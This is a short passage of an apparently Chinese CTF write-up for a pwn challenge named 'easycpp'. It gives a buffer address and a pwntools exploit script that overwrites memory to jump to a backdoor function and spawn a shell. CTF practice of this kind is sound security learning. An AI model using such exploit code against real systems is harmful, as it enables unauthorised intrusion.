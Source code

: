 buf的地址如下：

![image.png](img/2c4d144e631df38695e7b71142226d25.png)

故得exp如下

```
from pwn import *

context.log_level = 'debug'

p = process('easycpp')

backdoor = 0x80487BB
buf = 0x804A0C0

payload = p32(buf + 4) + p32(backdoor)

p.sendline(payload)

p.interactive() 
```

向服务器发送payload，成功getsgell
